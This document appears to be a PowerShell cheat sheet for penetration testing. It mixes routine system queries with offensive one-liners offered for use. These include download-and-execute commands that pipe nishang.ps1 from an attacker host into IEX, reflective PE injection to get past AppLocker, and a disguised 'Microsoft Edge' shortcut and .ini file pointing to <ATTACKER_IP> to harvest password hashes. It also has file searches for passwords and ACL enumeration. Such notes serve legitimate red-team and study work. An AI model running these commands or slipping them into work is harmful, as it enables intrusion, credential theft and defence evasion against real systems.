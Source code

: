 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# Get OS architecture
`$env:processor_architecture`

# Get Process Architecture
`[Environment]::Is64BitProcess`

# Locally listening ports (TCP)
`netstat -ano -p tcp`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# get file system access
`$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'`

# Get Process Owners
`Get-WmiObject -class win32_process | select name,@{n='owner';e={$_.getowner().user}}`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`

# get-bytes of a string
`[System.Text.Encoding]::UTF8.GetBytes('hello')`

# Reflective Execution (Can Bypass Applocker)
`Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))`

# CMD to powershell
`powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"`

# Start a job with alternative creds
`Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}`

# Jump to powershell v2
`Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"`

# Get Alternate Data Streams
`$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream}; $ErrorActionPreference = 'Continue'`

# View listening connections (with optional PID translation to Proc names)
`$PROCS = Get-Process; Get-NetTCPConnection -LocalAddress <LOCAL_IP> | Sort-Object LocalPort | Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemoteAddress,RemotePort,State | Format-Table`

# Create Malicious Shortcut (lnk) file to steal hashes
```
$Output_For_Lnk = "$pwd\Microsoft Edge.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@source"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browse the web"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

# Enable PowerShell Remoting
`Enable-PSRemoting -Force`

# Search for strings in files:
`$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'`

# Create malicious `.ini` file
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\aaa
```